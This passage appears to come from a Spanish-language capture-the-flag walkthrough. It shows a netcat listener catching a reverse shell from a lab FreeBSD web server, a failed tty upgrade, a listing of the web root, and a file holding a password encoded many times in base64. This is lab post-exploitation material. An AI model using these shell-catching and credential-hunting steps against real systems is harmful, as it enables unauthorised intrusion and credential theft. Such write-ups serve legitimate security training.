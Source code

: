 - Nos llega la shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.84] 13393
sh: can't access tty; job control turned off
$ whoami
www
$ 
```

- No nos deja.

```bash
$ script /dev/null -c bash
script: -c: No such file or directory
Script started, output file is /dev/null
Script started, output file is /dev/null

Script done, output file is /dev/null
```

- Hay un archivo llamado `pwdbackup.txt` por el nombre ya sabemos que es importante.

```bash
$ pwd
/usr/local/www/apache24/data
$ ls -la
total 72
drwxr-xr-x  2 root  wheel   512 Mar 19  2018 .
drwxr-xr-x  6 root  wheel   512 Jan 24  2018 ..
-rw-r--r--  1 root  wheel    33 Jan 24  2018 browse.php
-rw-r--r--  1 root  wheel   289 Jan 24  2018 index.php
-rw-r--r--  1 root  wheel    27 Jan 24  2018 info.php
-rw-r--r--  1 root  wheel    33 Jan 24  2018 ini.php
-rw-r--r--  1 root  wheel    90 Jan 24  2018 listfiles.php
-rw-r--r--  1 root  wheel    20 Jan 24  2018 phpinfo.php
-rw-r--r--  1 root  wheel  1267 Mar 19  2018 pwdbackup.txt
```

- Y tenemos esto.

```bash
$ cat pwdbackup.txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```
